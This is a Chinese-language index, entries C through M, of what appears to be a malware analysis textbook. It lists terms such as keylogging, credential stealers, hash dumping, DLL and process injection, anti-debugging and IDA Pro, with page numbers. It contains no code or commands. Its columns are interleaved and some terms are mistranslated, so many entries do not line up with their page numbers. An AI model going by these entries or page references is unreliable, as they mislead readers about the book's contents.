[www.it-ebooks.info](http://www.it-ebooks.info/)

基于内容的内容对策，298，

哈希转储，236–238

302–307

键盘记录，238–241

控制单元，68

跨引用（xref），124

ControlService 函数，455，549

检查 gethostbyname，495

习惯，72

用于全局变量，547

CopyFile 函数，526

图形，98，99

对策

函数，498

基于内容，302–307

用于安装程序导出，572–573

基于网络的，297

在 IDA Pro 中，95–97

隐秘启动技术，253–265

添加缺失的代码，342

APC 注入，262–265

导航，92–93

Detours，262

和虚拟函数，436

钩子注入，259–261

CryptAcquireContext 函数，455

实验室，266–267

加密算法，280–285

解决方案，586–607

识别字符串和导入，

启动器，253–254

281–282

进程注入，254–257

寻找加密常数，

进程替换，257–259

282–283

CPU（中央处理单元）

寻找高熵内容，

线程和，149

283–285

在 x86 架构中，68

密码学，缺点，281

cpuid 指令，虚拟机

CWSandbox，40

和，374

从虚拟机崩溃，302–307

**D**

procmon，44

da 命令，在 WinDbg 中，210

CreateFile 函数，137，215，219，

数据

455，520，527，583，640

固定代码与临时代码，314–315

调试器和，171

在结构上叠加，214

CreateFileMapping 函数，137–138，

转换为 Python 脚本的脚本

455，520，527，583

字符串，500–501

CreateMutex 函数，152，455，522

在 IDA Pro 中重新定义，103

CreatePipe 函数，233

数据缓冲区，指令，

CreateProcess 函数，147–149，

操作，81

233，455，479，524，544，590，

数据交叉引用，96–97

642，727

数据编码，269–294

参数，728

加密算法，280–285

CreateRemoteThread 函数，256，262，

识别字符串和导入，

423，455，586，600，730

281–282

参数，603–604

寻找加密

和直接注入，257

常数，282–283

用于 DLL 注入，255

寻找高熵内容，

CreateService 函数，153，243，455，

283–285

514–516，549，550，554

自定义，285–288

CreateThread 函数，150–151

解码，288–294

CreateToolhelp32Snapshot 函数，255，

通用程序的仪器，

263，455，498

解密，291–294

CreateWindowEx 函数，137

函数的手动编程，

凭据窃取者，234–241

函数，289–290

GINA 拦截，235–236，

自解码，288–289

570–571

**738**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

分析算法的目标，270

Windows 调试器检测，

识别和利用步骤，

352–356

315–317

手动检查结构，

实验室，295–296

353–356

解决方案，607–626

使用 Windows API，352–353

简单的密码，270–280

解码，288–294

Base64，277–280

中的反调试例程，663

凯撒密码，270

通用程序的仪器，

其他编码方案，

解密，291–294

276–277

函数的手动编程，

XOR 密码，271–276

289–290

数据执行保护

自解码，288–289

(DEP)，578

栈形成的字符串，540–541

主内存中的数据段，69

XOR 编码的字符串，542–543

.data 段在 PE 文件中，22

解密

的大小，24

AES 的，625–626

DataDirectory 数组，364

通用程序的仪器，

db 命令，在 WinDbg 中，558

291–294

dd 命令，在 WinDbg 中，210，

对其的要求，622

218，564

Deep Freeze，467

DDoS (分布式拒绝服务)

默认视图 IDA Pro，返回

攻击，234

到，92

启动恶意软件，517

默认网页浏览器，恶意软件阻止-

消除，699–703

调试器，167–178\. *另见* 反-

延迟断点，212–213，554

调试；Ollydbg；WinDbg

删除运算符，437

异常，175–177

DeleteFile 函数，PyCommand 到

第一次和第二次机会，176

防止执行，201

识别行为，356–359

Delphi 程序，编译时间，23

INT 扫描，357

DEP (数据执行保护)，578

执行代码校验和，357

依赖关系检查器 (*depends.exe*)，

时间检查，357–359

16–17，49，468，480

对功能的影响，

析构函数，437

359–363

详细过滤器，在 procmon 中，45

异常，361–362

Detours，262

插入中断，362–363

设备驱动程序，206

TLS 回调，359–361

分析，562

即时，411

在内核中查找，217

内核与用户模式，168–169

在内存中查找，与

微软符号，212–215

WinDbg，563

修改程序执行

使用 IDA Pro 打开，551

与，177

加载，226

源级与汇编级，168

加载工具，470–471

使用，169–175

使用 WinDbg 查看，551–553

断点，171–175

设备对象

单步执行，169–170

获取其句柄，216

跳过与进入的比较，

在内核中查看，218

170–171

*\Device\PhysicalDisk1*，138

漏洞，363–365

*\Device\PhysicalMemory*，139

DeviceIoControl 函数，206, 216，

219，455，561–562，565–566

索引

**739**

[www.it-ebooks.info](http://www.it-ebooks.info/)

!devobj 命令，在 WinDbg 中，220

DomainTools，301

数字逻辑，66

双打包恶意软件，397

数字签名，48

下载器，3，231–232

直接注入，254–257

作为恶意软件，481–482

反汇编器，3，67\. *另见* 反-

下载恶意软件，打开 URL

反汇编；IDA Pro (交互-

对于，651–652，654

(互动反汇编专业版)

驱动对象

反汇编窗口，在 OllyDbg 中，182

查找，220–221

反汇编，65\. *另见* x86

获取列表，552

反汇编

Windows 中的结构，206

在 IDA Pro 中增强，100–103

驱动程序签名，64 位版本的

Hello World 程序，412

Windows 和，227

Snort 规则关键字距离，305

DriverEntry 函数，206，551

分布式拒绝服务 (DDoS)

DriverInit 函数，214，563

攻击，234

DriverUnload 命令，563

启动恶意软件，517

!drvobj 命令，在 WinDbg 中，217

div 指令，75

dt 命令，在 WinDbg 中，217，552，

除以零异常，653，668

563，565

DLL 显示窗口，在进程

du 命令，在 WinDbg 中，210

Explorer，48

虚拟名称，100

DLL 注入，286-289，621，676，730

更改，111

DLL 加载顺序劫持，

Dummy 服务，在 INetSim 中，56

244–245

在 OllyDbg 中的 dump 命令，658

DllCanUnloadNow 函数，157，456

从其导出可执行文件

DllEntryPoint 函数，495

内存，469

DllGetClassObject 函数，157，456

OllyDump 用于，390

DllInstall 函数，157，456

dwo 命令，在 WinDbg 中，211

DllMain 函数，43，146，254，401，495

DWORD

确定函数数量

基于目标的调用指令

被其调用，499

在，396

DLL_PROCESS_ATTACH，573

在 Windows API 中，136

DllRegisterServer 函数，157，456

动态分析，39–60，65。*另见*

DLLs。*见*动态链接库（DLLs）

调试器

DllUnregisterServer 函数，157，456

高级，3

DNS（域名系统）

基本，2–3

攻击者隧道信息，309

实践中的基本工具，56–59

攻击者使用，309

优点，39

服务器，恶意软件访问，34

为其捕获 BAT，467

控制响应的工具，465

与静态分析结合

DNS 请求

307–321

ApateDNS 对其响应，51–52

将注册表快照进行比较

检查，57

Regshot，50–51

x86 的文档手册

模拟网络，51–53

架构，85

INetSim，55–56

域

实验室，61–62

黑名单，301

解决方案，482–493

获取信息，300–302

使用 Wireshark 进行数据包嗅探，

和恶意活动，299

53–55

域名系统。*见*DNS

Process Explorer 用于查看

（域名系统）

进程，47–50

**740**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

Process Monitor（procmon），43–46

电子密码本（ECB），626

运行恶意软件，42–43

ELF（可执行和链接格式）

沙盒，40–42

mat)，IDA Pro 对其支持，87

缺点，41–42

EM64T 架构，441

动态链接库（DLLs），12，17，

邮件窃取恶意软件，572

145–147

Emerging Threats 签名列表，304

在 IDA Pro 中分析，521–525

EnableExecuteProtectionSupport

基址不同

函数，456

推荐，88

编码。*见*数据编码

基本结构，146–147

编码函数，614，725

Detours 添加到现有

加密文件

二进制文件，262

其前几个字节，286

注入，254–257

写作，614

调试器视图，256

加密写入，函数图，287

启动，42

加密

在 OllyDbg 中加载，191–192

使用其解码算法

为 load-order hijacking

OllyDbg，616

持久性，244–245

指示，618

恶意软件作为，42

函数之间的关系，621–622

内存地址，184–185

字节序，在 x86 架构中，70

内存映射以定位，546–547

进入指令，77

打包，401

对打包的熵计算，用于

Process Explorer 用于查找

可执行文件，387–388

注入，589

熵分数，与依赖关系

动态链接，16

块大小，284

动态解包程序，

EnumProcesses 函数，456，730

自动化，389

EnumProcessModules 函数，456

动态链接函数，探索

尾声

与 Dependency Walker 一起使用

64 位代码，446–447

16–17

在函数中，77

EPROCESS 结构

**E**

更改，566

在 WinDbg 中检查，565

EA（有效地址），在 IDAPython 中

错误信息字符串

脚本，105

在二进制中查找，503–504

Eagle，Chris，*The IDA Pro Book*，88

恶意软件可能性的指标

EAT（导出地址表），在调试器中挂钩

函数，718

方法，248

ESI 寄存器，81

EAX 寄存器，75，646

ESP 寄存器，77，348

EBP 寄存器，77

事件捕获，在中的开关，toggle on and off

ECB（电子密码本），626

procmon，749

Eckel，Bruce，*Thinking in C++*，428

事件流，在 Windows 中，带有和不带有

ECX 寄存器，此参数和，429

出钩注入，259

.edata 部分，在 PE 文件中，22

Ex 后缀，用于 Windows 函数，17

EDI 寄存器，81

异常处理程序

EDX 寄存器，75

在 64 位系统中，445，447

有效地址（EA），在 IDAPython 中

构建，653

脚本，105

结构化滥用，344–346

EFLAGS 寄存器，72

在 OllyDbg 中，194–195

EIP（指令指针），73

正确反汇编的代码，654

INDEX

**741**

[www.it-ebooks.info](http://www.it-ebooks.info/)

ExceptionHandler 函数，345

fastcall 调用约定，120

EXCEPTION_REGISTRATION 数据

纤维，在 Microsoft 系统中，151

结构，344

“文件包含太多数据”错误，

异常，344，361–362

在 OllyDbg 中，364

在调试器中，175–177

文件映射，137–138

第一次和第二次机会，176

文件签名，10

在 Windows 中，157–158

文件系统过滤器，在 procmon 中，46

独异或加密。*另见*XOR 加密

Windows API 中的文件系统函数，

*.exe*文件，程序感染，519

137–138

可执行链接格式（ELF），

FILE_BOTH_DIR_INFORMATION 结构，

IDA Pro 对的支持，87

558–559

可执行文件。*另见*打包

FileInformation 结构，558–559

可执行文件

FileInsight，468

从内存中转储，469

FileMon 工具，43

按序号导入函数，

文件

16–17，43

大量暴力破解，273

加载，384–385

检查名称，541

进入另一个地址空间，into address space of another

隐藏的，558–559

进程，595

恢复，559–560

在 IDA Pro 中，88–89

恶意软件创建，612

在 OllyDbg 中打开，180–181

恶意软件修改，527–529

运行 PEiD 插件，14

恶意软件打开，714–716

在中搜索字符串，11

恶意软件上传，716

作为 shellcode，407

从虚拟机中传输

终止，656–657

机器，36

exit，即时分析，724

从内核空间写入，215

紧迫性，与准确性相比，304

Process Monitor 中的过滤器对话框，484

漏洞，245

过滤器

*explorer.exe*

在 procmon 中，44–46

代码搜索，732

在 Wireshark 中，53

将路径写入进程，588

Find OEP 插件（段跳转），391

导出地址表（EAT），在调试器中挂钩

FindCrypt2，283

方法，248

输出，619

在 IMAGE_EXPORT_DIRECTORY 中的导出数据

FindFirstFile 函数，20，456，

数组，416

478–479，520，527，715

导出函数，18

finding

缺失，521

网络代码，313

Exports 窗口，在 IDA Pro 中，91

原始入口点（OEP），

$EXTERNAL_NET 变量，在 Snort 中，303

391–395

使用自动化工具，391–392

**F**

手动，392–395

恶意服务，55

strings，11–13

FakeDNS，469

findKernel32Base 函数，419，

模拟网络，51–53

697，707

Netcat (nc)用于监控，52–53

FindNextFile 函数，20，478–479，

Snort 中的误报，306

520，715

快速库识别和

FindResource 函数，254，456，596，

Recognition Technology

600，609

(FLIRT)，88

findSymbolByHash 函数，418，419，

签名检测，541

697，707

**742**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

FindWindow 函数，456，662–663

反汇编和内存

搜索调试器，356

转储，174

防火墙

可执行文件按序号导入，

和内核修补，227

16–17，43

虚拟机，33

可执行文件的使用，15–18

固件，66

导出，18

标志，72–73

找到它们之间的联系，622

fldz 指令，412

找到安装钩子，223

FlexHEX，468

图形交叉引用，498

Flink 指针，414

调用图，98

FLIRT (快速库识别和

调用硬编码位置，410

Recognition Technology)，88

在存储内存中识别

签名检测，541

位置，695

浮点指令，130

导入，18，19

流程图，当前函数，98

命名约定，17

流控制，隐藏，340–346

面向对象中的重载

添加缺失的代码交叉-

编程，430–431

在 IDA Pro 中的引用，342

通过它终止程序，656–657

函数指针问题，340–341

递归，527

滥用结构化异常

搜索相关信息，19

处理程序，344–346

跳过与进入的区别，

返回指针滥用，342–343

394–395

流导向反汇编，329，

虚拟与非虚拟，432–436

331–334

vtables，434–435

flow Snort 规则关键字，305

函数窗口，在 IDA Pro 中，91

fnstenv 指令，结构体，

411–412

**G**

循环，116–118

g (go)命令，在 WinDbg 中，211

ForceFlags 字段，在堆头中，355

GCC (GNU 编译器约定),

格式化字符串，识别，505

调用约定，121

在 IDA Pro 中格式化操作数，100

*GDI32.dll*，17

FPU (x87 浮点单元)，411–413

从中导入，20

FpuSaveState 结构体，411

GDT (全局描述符表)，374

框架函数，446

GDT 寄存器 (GDTR)，374

FS 段寄存器，和 SEH 链，

通用寄存器，71–72

344，354

在 x64 架构中，443

*fsgina.dll*，235

GET 请求，309

fstenv 指令，结构体，

和恶意活动，299

411–412

恶意软件构造，539

FtpPutFile 函数，456，714

GetAdaptersInfo 函数，456

FtpSetCurrentDirectory 函数，714

动态解析，680

函数指针，435

getaddrinfo 函数，313

问题，340–341

GetAsyncKeyState 函数，239，457，

函数

581，585

分析以确定堆栈帧

GetCommandLineA 函数，395

构造，347

断点，400

在 IDA Pro 中分析，97–98

getContent 函数，615

图形化，114

GetCurrentProcessId 函数，547

调用约定，119–121

GetCurrentThreadId 函数，575

跳过分析的决定，526

索引

**743**

[www.it-ebooks.info](http://www.it-ebooks.info/)

GetDC 函数，457

图形模式，在 IDA Pro 中，89–90，

GetFileSize 函数，708

98–99

GetForegroundWindow 函数，239–240，

图形识别和认证

457，581，585，598–599

tication (GINA)拦截，

GetHash 函数，236

235–236

gethostbyname 函数，313，314，457，

指示，567–571

495–496，727

*Gray Hat Python*（Seitz），201

gethostname 函数，457，611，650

GUI 操作函数，20

GetKeyState 函数，240，457

GUI 程序，

GetModuleBaseNameA 函数，587

IMAGE_SUBSYSTEM_WINDOWS_GUI

GetModuleFileName 函数，457，515，

值，23

531，541，575

GUIDs（全局唯一标识符），

GetModuleHandle 函数，395，457，609

155

断点，400

GetProcAddress 函数，13，15，224，

**H**

237，256，387，413，457，520

设置断点，395

*hal.dll*，恶意驱动程序与，207

解包的导入，385

处理程序

GetStartupInfo 函数，457

用于设备对象，220

GetSystemDefaultLangId 函数，

获取，216

457，498

用于注入恶意 DLL，255

GetSystemDefaultLCID 函数，178

定位 PDF 文档，708

GetTempPath 函数，457，604

获取到*samsrv.dll*和

GetThreadContext 函数，458，

*advapi32.dll*，237

590，591

用于服务，OpenService 函数

GetTickCount 函数，313，314，315，

用于，550

358–359，458，668–669

在 Windows API 中，137

GetVersion 函数，395

打开到 Winlogon，603

GetVersionEx 函数，458

处理程序类型（H）类型，在 Windows

GetWindowsDirectory 函数，458

API，136

GFI 沙盒，40–41

处理程序窗口，在进程

GINA（图形识别和

Explorer，48

认证）拦截，

固定编码的标头，637

235–236

固定位置，用于函数

指示，567–571

调用，410

全局描述符表（GDT），374

硬件断点，357

内存中的全局值，69

在 OllyDbg 中，188，190

全局变量，587

与软件相比，687

对于交叉引用，547

硬件级别，在 x86 架构中，66

与本地相比，110–112

哈希转储，236–238

GlobalAlloc 函数，609

识别方法，238

全局唯一标识符

哈希函数，418

（GUIDs），155

哈希导出名称，用于符号

GNU 编译器集合（GCC），

分辨率，417–418

调用约定，121

哈希，10

gnuunx（GNU C++ UNIX）库，102

标头

GrabHash 函数，237

固定的，637

图

在 PE 文件格式中，21–26

加密的写入，287

Heads 函数，105

来自 IDA Pro Entropy 插件，

284–285

**744**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

堆，69

内联，248–250

堆空间，创建，437

键记录器与，239

堆喷射，705

本地与远程，260

堆结构，信息，722

寻找代码，223

创建，355

低级操作，579

Hello World 程序，418–421

安装恶意软件代码，577

反汇编，412

系统服务描述符表

帮助，在 OllyDbg 中，197

（SSDT），221–222

启发式，10

检查，222

Hex Editor Neo，468

基于主机的签名，2

十六进制编辑器，468

主机名

十六进制窗口，在 Wireshark 中，53

编码的 Base64 字符串，611

Hex Workshop，468

获取函数，722

HexEdit，468

本地机器的加载

Hex-Rays Decompiler 插件，106，

缓冲区，650

347，468–469

仅主机网络，32–33

隐藏文件，558–559

热键，注册，20

恢复，559–560

HTML（超文本标记语言）

隐藏进程, 566

(度量) 注释, 506

隐藏调试器插件, 354

解析命令字符

用于 OllyDbg，198

来自, 509

Hidedebug 插件, 354

向恶意软件发送命令, 507

高熵内容，搜索, 283

htons 函数, 727

高级语言, 66, 67

HTTP (超文本传输协议)

高级远程钩子, 260

攻击者使用, 309

HKEY, 139

端口 80 和, 232

HKEY_CLASSES_ROOT, 140

反向后门, 539

\http\shell\open\command, 699

HTTP 服务器

HKEY_CURRENT_CONFIG, 140

后门指示器, 493

HKEY_CURRENT_USER (HKCU), 140

恶意软件访问, 34

HKEY_LOCAL_MACHINE (HKLM), 140

模拟, 56

HKEY_LOCAL_MACHINE\Software 注册表

HTTPOpenRequest 函数, 313

键, 448

$HTTP_PORTS 变量，在 Snort 中, 303

\Microsoft\Cryptography\RNG\Seed, 549

HTTPQueryInfo 函数, 313

RegSetValue, 484

HTTPS，攻击者使用, 309

\Microsoft\Windows\CurrentVersion\

HTTPS 服务器，模拟, 56

运行之间切换, 485

HTTPSendRequest 函数, 313

\Microsoft\Windows NT\CurrentVersion\

匈牙利表示法, 136

SvcHost, 488

Hyde, Randall, *汇编艺术*

HKEY_USERS, 140

*语言*, 68

HlpGetPrimaryCredential 函数, 238

超文本标记语言

$HOME_NET 变量，在 Snort 中, 303

(HTML) 注释, 506

诱饵, 369

解析命令字符

钩子函数，NtQueryDirectoryFile

来自, 509

作为函数, 556–558

向恶意软件发送命令, 507

钩子注入, 259–261

超文本传输协议 (HTTP)

汇编代码, 261

攻击者使用, 309

钩子

端口 80 和, 232

在 OllyDbg 中检查, 579–580

反向后门, 539

函数, 598

索引

**745**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**I**

搜索, 94–95

在打包的可执行文件中搜索

IAT (导入地址表), 钩子

方法与, 248

尾跳, 392

ICE (在电路仿真器)

TLS 回调函数

断点, 363

分析, 360

IDA Pro (交互式反汇编器

在图形和

专业版), 87–106, 469

传统视图, 495

添加

与 WinDbg 对比, 553

IP_ADAPTER_INFO 结构,

680–681

WinMain 函数，其中, 561

分析函数, 97–98

*《IDA Pro 手册》* (Eagle), 88

图形分析函数, 114

IDA Pro Entropy 插件, 283–284,

在其中应用结构, 547–548

619–620, 622

用于比较的插件, 466

从中生成图形，284–285

连续跳转指令, 335

IDA Pro 数据库 ( *idb*), 88

交叉引用, 95–97

IDA Pro Free, 87

增强反汇编, 100–103

IDAPython 中的 idaapi 模块, 105

FindCrypt2, 283

IDAPython, 105–106

绘图选项, 98–99

.idata 部分，在 PE 文件中, 22

for 循环, 117

IDAPython 中的 *idautils* 模块, 105

解析例程的，318–319

*idb* (IDA Pro 数据库), 88

尾跳视图, 392–394

IDAPython 中的 *idc* 模块, 105

在其中突出显示反 VM，377–378

IDC 脚本, 104–105

在其中识别 XOR 循环, 274–276

IDEA (国际数据加密

接口, 89–95

算法), 283

反汇编窗口模式,

识别恶意软件，用于散列, 10

89–90

IDSs (入侵检测系统), 298

返回默认视图, 92

基于签名的，302

分析窗口, 91–92

与 Snort，303–304

实验室，107–108

IDT（中断描述符表），

解决方案，494–501

225，374

使用加密导入的列表，

IDT 寄存器（IDTR），374

图形函数，282

if 语句

加载可执行文件，88–89

对于活跃的互联网连接，510

查看 user-space 代码，

识别，113–116

215–216

IIDs（接口标识符），155

手动切换字节之间

和 COM 功能，518

数据和指令，334

图像基址，184

导航，92–94

IMAGE_DATA_DIRECTORY 结构，364

导航带中的颜色，93

IMAGE_DOS_HEADER 结构，22，594

探索历史，93

IMAGE_EXPORT_DIRECTORY 数组，导出

跳转到位置，93–94

输入数据，416

链接和交叉引用，92–93

IMAGE_FILE_DLL，用于修改 PE

打开驱动程序，551

标头，43

打包程序与，387

IMAGE_FILE_HEADER，在 PE 文件中，22

扩展的插件，103–106

IMAGE_NT_HEADERS 结构，22，594

商业插件，106

IMAGE_OPTIONAL_HEADER，在 PE 文件中，23

IDAPython，105–106

IMAGE_OPTIONAL_HEADER 结构，

IDC 脚本，104–105

363–364

搜索 x86 指令漏洞，

IMAGE_SECTION_HEADER 结构，23，594

ble 到 VM 检测，670–672

**746**

目录

[www.it-ebooks.info](http://www.it-ebooks.info/)

IMAGE_SUBSYSTEM_WINDOWS_CUI 值，用于

初始化函数，214

控制台程序，23

注入代码，64 位版本，442

IMAGE_SUBSYSTEM_WINDOWS_GUI 值，用于

内联挂钩，248–250

GUI 程序，23

函数安装，574–575

$iment 命令，在 WinDbg 中，213

输入函数，以及解码，286

ImmDbg（Immunity Debugger），179，

输入/输出系统（I/O），在 x86

292–294，469，616–617

架构，68

用于的 Python 脚本，200

插入中断，362–363

立即操作数，69

安装程序导出，交叉-图

imm.getRegs 函数，293

参考，572–573

imm.remoteVirtualAlloc 命令，293

安装

imm.setBreakpoint 函数，293

内联挂钩，574–575

Immunity Debugger（ImmDbg），179，

VMware Tools，31

292–294，469，616–617

InstallService，43

用于的 Python 脚本，200

类的实例，428

Immunity 安全公司，179

指令指针，68，71

imm.writeLong 函数，293

调试器更改，177

imm.writeMemory 命令，293

指令指针相对

导入地址表（IAT），挂钩

x64 中的数据寻址

方法与，248

架构，443–444

Import Reconstructor（ImpRec），

指令集，67

390–391，469

指令

导入表

多个部分中的字节，338

缺失，480

在 x86 架构中，69–70

修改，262

反 VM，377

使用导入重建

INT 0x2E 指令，158

Reconstructor，390–391

INT 2D 反调试技术，363

手动修复，395–397

INT 3 指令

导入函数，15，18，19

异常与，176

检查列表，513–517

插入，362

打包器解析，385

INT 扫描，357

导入窗口，在 IDA Pro 中，91

Interactive Disassembly Professional.

ImpRec（导入重建器），

*参见* IDA Pro（交互式反汇编

390–391，469

（汇编专业）

In-Circuit Emulator（ICE）

接口标识符（IIDs），155

断点，363

和 COM 功能，518

指令（x86），376

国际数据加密算法，

索引服务，恶意软件启动，582

算法 (IDEA)，283

间接策略，300

互联网连接

inet_addr 函数，458，522

活动构造，510

INetSim，55–56，57，469，634

恶意软件和，29，34

请求日志，58

检查活动恶意软件，501

信息窃取恶意软件，4

Internet Explorer，第三方插件

攻击者使用的基础设施，

为，157

现有的，311

互联网函数，函数图，

继承，在面向对象中

与之相关的，

编程，432

634–635

*.ini* 文件，139

互联网中继聊天 (IRC)，309

InInitializationOrderLinks 列表，

模拟互联网服务，55

结构，414

目录

**747**

[www.it-ebooks.info](http://www.it-ebooks.info/)

InternetCloseHandle 函数，504，634

IsWow64Process 函数，448，459

InternetConnect 函数，313

动态解决的努力，

InternetGetConnectedState 函数，

729–730

501，502

Itanium，441

InternetOpen 函数，145，313，

IWebBrowser2 接口，Navigate

458，504，505，514，634，

函数，155

639–640，650

InternetOpenUrl 函数，145，313，

**J**

458，504，505，514，634

JavaScript

InternetReadFile 函数，145，313，

在 PDF 文件中，704–705

458，504，505，634，

分析用户系统，423

InternetWriteFile 函数，313，458

jmp 指令，80，329，517

解释性语言，67

在 IDA Pro 中连续，335

进程间协调，使用

带有恒定条件，336

互斥锁，151–152

相同的目标，334–335

中断描述符表 (IDT)，

jnz 指令，408–409

225，374

Joe Sandbox，40

中断

跳转指令，386

使用反调试，362–363

跳转表，用于 switch 结构，

与 rootkits 相关，225

641–642

入侵检测系统

跳转到位置，在 IDA Pro 中，

(IDSs)，298

93–94

基于签名的，302

即时调试器，411

使用 Snort，303–304

OllyDbg 作为，696

入侵预防系统

jz 指令，653

(IPSs)，298

错误条件，647–648

I/O 通信端口，查询，

目标，646

375–377

IoConnectInterrupt 函数，225

**K**

IoCreateDevice 函数，562

IoCreateSymbolicLink 函数，562

KANAL (Krypto ANALyzer)，283，

IoGetCurrentProcess 函数，565

610，619

导入，560

KeInitializeApc 函数，264–265

IopInvalidDeviceRequest 函数，564

KeInsertQueueApc 函数，264–265

IP 地址

基于内核的键盘记录器，238

黑名单，301

内核代码，206

获取，300–302

64 位恶意软件和，442

和恶意活动，299

断点，548

IP_ADAPTER_INFO 结构，添加到

文件恶意软件的创建，554

IDA Pro，680–681

内核调试

IPRIP 服务，恶意软件作为安装，488

查看用户空间代码，

IRC (Internet Relay Chat)，309

215–216

IRP_MJ_DEVICE_CONTROL 函数，218

为 VMware 设置，207–210

代码列表，219

WinDbg 和，205

定位函数，218

内核驱动程序，创建服务以

IRP_MJ_READ 函数，219

加载，216

Irvine，Cynthia，373

内核模式

isdataat Snort 规则关键字，305

VMware 的二进制翻译，373

IsDebuggerPresent 函数，352，458

用于调试器，与用户模式对比，

IsNTAdmin 函数，458

168–169

在 Windows 中，158–159

**748**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

内核补丁保护，227

汇编中的 C 代码结构，

内核空间，APC 注入，

133–134

264–265

解决方案，501–513

*kernel32.dll*，17，20，159

隐秘启动技术，

汇编代码查找基址

266–267

地址，415

解决方案，586–607

在内存中查找，413–415

数据编码，295–296

导入函数，16

解决方案，607–626

从其导入，480，481

动态分析，61–62

恶意软件的名称更改，520，529

解决方案，482–493

与 shellcode 的关联，413

IDA Pro，107–108

查看其导入，478

解决方案，494–501

KERNEL_DRIVER 服务类型，153

恶意软件行为，251–252

内核模式 APC，263

解决方案，566–586

内核模式代码，查看，

网络签名，323–324

217–220

解决方案，626–645

Kernighan，Brian，*C 编程语言*

OllyDbg，202–203

*语言*，110

解决方案，530–548

KeServiceDescriptorTable 函数，559

打包器，403

KeTickCount 函数，549

解决方案，684–695

密钥

检查器分析，425–426

用于加密算法，281

解决方案，696–712

在注册表中，139

静态分析，27–28

关键初始化代码，识别，622

解决方案，477–481

键盘输入，20

WinDbg，228

键盘记录器，4，238–241

解决方案，548–566

分析，585，597–599

Windows 恶意软件，162–163

钩子，260

解决方案，513–529

指示，491，581

后进先出（LIFO）结构，77

*KMixer.sys*，217

启动器，4，231–232。*另见* 隐秘

KnownDLLs 注册表键，245

启动技术

Krypto ANALyzer（KANAL），283，

LdrGetProcAddress 函数，15

610，619

LdrLoadDll 函数，15，459

LDT（局部描述符表），374

**L**

LDT 寄存器（LDTR），374

实验室环境，恶意软件和，298

lea 指令（加载有效

标签，在 OllyDbg 中，197

地址），73–74

实验室

叶子函数，446

64 位恶意软件，450–451

leave 指令，77

解决方案，723–732

左旋转（rol），76

反调试，367–368

IDA Pro 中的旧版图，98

解决方案，655–669

libdisasm 反汇编库，330

反汇编，350

LIFO（后进先出）结构，77

解决方案，645–655

线性反汇编，329–331

反虚拟机（反 VM）

与面向流程的对比，331–332

技术，381–382

链接库，可执行使用，

解决方案，670–684

15–18

C++ 分析，439–440

链表遍历，130–132

解决方案，712–723

在 IDA Pro 中导航链接，92–93

Linux 虚拟机，57

索引

**749**

[www.it-ebooks.info](http://www.it-ebooks.info/)

监听函数，143，144

循环

监听模式，在 Netcat 中，52

在 C 代码中，116–118

LIST_ENTRY 结构，414，565

在其后设置断点，394

小端数据，69

LordPE，469

lm 命令，在 WinDbg 中，212，223，

LowLevelKeyboardProc 导出，20

553，555

最低级语言级别，66，67

ln 命令，在 WinDbg 中，213

LowLevelMouseProc 导出，20

*loaddll.exe*，401

低级远程钩子，260

OllyDbg 使用，191

LsaEnumerateLogonSessions 函数，459

加载器，232。*另见* 启动器

*lsaext.dll*，236

加载

LSASS（本地安全授权子系统

设备驱动程序，226

系统服务）进程，236

可执行文件，384–385

*lsass.exe*，236

在 IDA Pro 中，88–89

LUIDs（本地唯一标识符），238

LoadLibrary 函数，13，15，261，387，

413，417，459，520，521，545，

**M**

546，547，585

MAC 地址，用于虚拟机，371

查找最后调用，692

机器代码，67

解包可执行文件的导入，385

魔法常数，283

LoadResource 函数，254，459，596，

魔数，376

600，609

主函数

IDA Pro 中的 loc 链接，93

确定开始，530

本地管理员，用户

从此处开始分析，501–502

以其运行，245

主内存，在 x86 架构中，

本地描述符表（LDT），374

68，69

本地钩子，260

主要功能表，218

本地计算机，使用

分析其功能，564–566

主机名，650

查找，220

本地安全授权子系统

Malcode Analyst Pack，469–470

服务（LSASS）进程，236

恶意文档，进程

本地用户帐户，密码

使用资源管理器分析，50

哈希，236

malloc 函数，578

本地变量，与全局变量相比，110–112

恶意软件。*另见* Windows 恶意软件

本地唯一标识符（LUIDs），

64 位，441–449

238，247

不解包分析，

位置，名称更改

400–401

IDA Pro，100

尝试删除自身，531

LockResource 函数，596，609

双重包装，397

记录

用于识别的哈希，10

活动窗口，239

在自然栖息地中观察，298

凭据的，570–571

压缩和混淆，13–14

恶意软件中的错误，674

运行，42–43

在 OllyDbg 中，197

运行的安全环境，14

逻辑运算符，75

搜索证据

登录，凭证窃取者，234–241

编码，608

长指针（LP）类型，在 Windows 中

自删除脚本代码，674

API，136

类型，3–4

LookupPrivilegeValueA 函数，

恶意软件分析

247，730

为其创建机器，31–33

循环回编码算法，277

过度分析的危险，308

**750**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

一般规则，4–5

从中转储可执行文件，390，

目标，1–2

400，469

使用 VMware 的风险，36–37

在其中查找设备驱动程序，使用

技术，2–3。*另见* 动态

WinDbg, 563

分析；静态分析

在其中查找 *kernel32.dll*，413–415

工具，465–475

函数转储，174

恶意软件行为，231–250

进程和，147

后门，232–234

内存访问违规，177

蜂窝网络，234

内存地址操作数，69

凭证窃取者，234–241

内存断点，在 OllyDbg 中，188，

GINA 截获，235–236

190–191

哈希转储，236–238

内存转储窗口，在 OllyDbg 中，

键盘记录，238–241

183

下载器和启动器，

内存映射，用于定位 DLLs，

231–232

546–547

指示，298–299

内存映射窗口，在 OllyDbg 中，

实验室，251–252

183–185

解决方案，566–586

内存窗口，WinDbg 读取

持久性，241–245

从，210–211

DLL 加载顺序劫持，

Memoryze，470

244–245

消息框，恶意软件创建的，586

恶意系统二进制文件，

消息摘要算法 5 (MD5)，10

243–244

消息流，在 Windows 中使用和

Windows 注册表，241–243

无挂钩注入，259

提权，245–247

Metasploit，245，418

SeDebugPrivilege，246–247

方法

远程管理工具 (RAT),

在 C++类中，427

233–234

起重，430–431

用户模式 rootkit，247–250

微代码，在 x86 架构中，66

IAT 挂钩，248

微软。*另见* Windows

内联挂钩，248–250

组件对象模型 (COM),

美国曼迪安特

154–157

ApateDNS，51–52

文档，453

红幕，388

防火墙，33

混淆，430–431

Hyper-V，31

手动解包，389–397

软件数据执行预防

MapViewOfFile 函数，137–138，459，

（DEP），345

520，527，583

符号，212–215

MapVirtualKey 函数，459

虚拟 PC，31

